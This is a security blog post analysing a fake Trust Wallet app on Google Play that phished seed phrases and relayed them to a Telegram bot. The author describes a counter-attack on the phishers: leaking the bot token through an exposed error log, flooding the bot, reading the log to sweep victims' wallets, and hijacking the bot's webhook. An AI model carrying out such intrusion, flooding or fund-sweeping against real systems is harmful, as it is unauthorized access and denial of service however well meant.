


**This is a special occurrence.**

We write a lot about phishing, but it’s not every day that you have the opportunity to save phished funds and give them back to the victim.

**This user unfortunately installed a fake version of Trust Wallet via the Google Play store.**

We’ve [written about malicious APKs in the past](/discovering-fake-trezor-metamask-and-mycrypto-android-apks) that target cryptocurrency users, but they were hosted on third-party sites. The one we are writing about today was actually in the official Google Play store, highly ranked, and had a lot of user reviews, downloads, and a decent 3 and 1/2 star rating.


I downloaded this app into a sandbox and decompiled it with [apktool](https://ibotpeaches.github.io/Apktool/). I was expecting keys to be sent to a Firebase database, per usual, but this one operated differently.

This application loaded a domain (trustapp.ltd) into a [WebView](https://developer.android.com/reference/android/webkit/WebView) (which was branded similarly to Trust Wallet) and prompted the user to enter their mnemonic phrase.


As soon as the user clicks the “Restore Wallet” button, their input is sent to a server-side script called process_login.php and the user sees an error state view.


This is the app in its entirety — it does nothing else. In fact, this technique of showing the user an error state and asking them to try again was actually pretty efficient — it got a lot of users to enter their secrets more than once.

While inspecting the domain, I noticed they had a misconfiguration with their Apache web server and they were exposing their error_log. This was exceptionally handy because of their shoddy code. Their code merely relayed everything to a Telegram API endpoint via file_get_contents (note: this is [the wrong PHP function to call to make such request](https://stackoverflow.com/a/33303776/3000179) due to the default configuration on some servers, and it doesn’t allow you to correctly error handle, unlike [curl](https://www.php.net/curl)).

Because of the lack of error handling in their script, it allowed me to cause a [Telegram HTTP 429 error](https://core.telegram.org/bots/faq#broadcasting-to-users) for their bot by sending a lot of requests in a short period of time. This then logged the unhandled error into their exposed error_log and gave me their Telegram bot API keys.

```txt
PHP Warning:  file_get_contents(https://api.telegram.org/bot1001899136:<secret>/sendMessage?chat_id=-1001173902674&amp;text=<mnemonic_phrase>): failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in /home/trusxmko/public_html/login/process_login.php on line 20
```


Now that I had their secrets, I was able to hit the Telegram API directly with a simple flood (i.e., force the [HTTP 429](https://httpstatuses.com/429) state on their bot), which caused the secrets being entered on their domain to be logged into their error_log instead of being sent to their private chat on Telegram.



All I had to do now was periodically fetch their error_log and parse it to fetch all the secrets entered, then pass them into my custom sweeper. Essentially, I was sitting in the middle of their phishing kit and their c2 Telegram private chat by DoSing their bot.



I quickly set up a worker to grab their `error_log` every 180 seconds and plugged it into my custom sweeper. Now all I had to do was monitor the bots — ensuring I was still flooding their Telegram private chat and fetching the `error_log`.

Whilst I had that running, I noticed I could set up a webhook on their Telegram bot so that it would send me all channel updates for all messages sent by users (not the messages from the bot itself). I was essentially using their own bot to report to me their private conversations.

I only received a couple of updates from the webhook, but it did give me some good data. The people behind this phishing campaign had the nickname “George” (Telegram UID: 1168515438). The account was set to and spoke Turkish. Here are some messages I received from the user

```txt
Original: valletin birinden 4k vurdum harcamalar icin. onu buna \u00e7ektim

Translated: I shot 4k from one of the vallet for spending. I took it \ u00e7

--

Original: 900 dolar eth var trusttan => {$mnemonic_phrase}

Translated: Have $ 900 eth trusttan => {$mnemonic_phrase}

--

Original: trusttan geldi ,+5k usd => {$mnemonic_phrase}

Translated: came from trust, + 5k usd => {$mnemonic_phrase}

--

Original: + olarak tokenler var

Translated: There are + tokens

--

Original: ++ vurduk ama adam son anda ay\u0131kt\u0131 ethleri cekemedik

Translated: ++ we hit, but the man couldn't shoot the moon ıkt \ u0131 eths at the last minute
```

I managed to sweep a good amount of funds for the time that I went undetected (I carried this out between 2020–06–28 1630UTC+1 until 2020–06–29 0700UTC+1) as they finally noticed me flooding their chats with over 50k messages.

* They most likely had to scrap the data for that time period as there was too much spam to filter through
* It allowed me to buy some time for users who were phished that I did not manage to catch in time, as the malicious APK has been up for a couple of days now

Once they noticed me around 0700UTC+1, they created an Apache rule to 403 the error_log and then they deleted the Telegram bot. They have most likely created another Telegram bot, but I will continue to flood them from various locations by creating HTTP requests to POST process_login.php. This will spam their logs with more random phrases to buy more time for those who were phished and create more work for them to filter through the noise.

Here’s a dump of the Telegram API responses (that do not contain any user secrets) that might help with investigations:

```txt
#getMe
{
 "ok": true,
 "result": {
  "id": 1001899136,
  "is_bot": true,
  "first_name": "FuckerBot31",
  "username": "FuckersssBot",
  "can_join_groups": true,
  "can_read_all_group_messages": false,
  "supports_inline_queries": false
 }
}

#getChat
{
 "ok": true,
 "result": {
  "id": 1168515438,
  "first_name": "George",
  "type": "private"
 }
}
```

### Returning The Funds
Since I was able to see the phishing transactions, I could see the addresses of the victims. I searched for the highest-value address on Twitter and got a result, and confirmed that they were aware that they had been phished.

I was able to verify ownership by having the user sign a specific message with his keys, and once confirmed, I returned the cryptocurrency that I had been able to intercept.

### Protect Yourself
If you’ve recently entered your mnemonic phrase into an interface and experienced the same user journey as described at the start of the article, please create a fresh seed on trusted software [that you can verify](https://support.mycrypto.com/staying-safe/verifying-authenticity-of-desktop-app). Then you will need to migrate all your funds to your new address.

You will need to audit all of your apps to ensure the ones you are running are legitimate. You will need to uninstall all the non-legitimate ones and do an audit on what could have been compromised.

Learn to [protect yourself and your funds](https://support.mycrypto.com/staying-safe/protecting-yourself-and-your-funds).